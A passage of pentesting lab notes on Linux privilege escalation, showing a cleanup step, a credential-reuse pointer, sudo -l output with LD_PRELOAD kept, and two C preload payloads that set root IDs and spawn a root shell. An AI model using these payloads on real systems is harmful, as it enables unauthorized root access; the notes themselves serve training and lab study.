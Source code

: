 #### 1.3.3 - Cleanup

```
TCM@debian:~/exploit$ cd ..
TCM@debian:~$ rm -rf exploit/
```

### 1.4 - Credential Reuse

Try to elevate root privileges or another user account after performing the enumeration phase for discovering [[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Privilege Escalation/Linux/Credentials]].

### 1.5 - Environment Variables

#### 1.5.1 - Detect

The second vulnerability in particular I would like to demonstrate that's regarding about.

```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
                                          
User user may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/sbin/apache2
```

#### 1.5.2 - Exploit

```
user@debian:~$ cat preload.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0, 0, 0);
        system("/bin/bash -p");
}

user@debian:~$ cat preloadv2.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
}
```
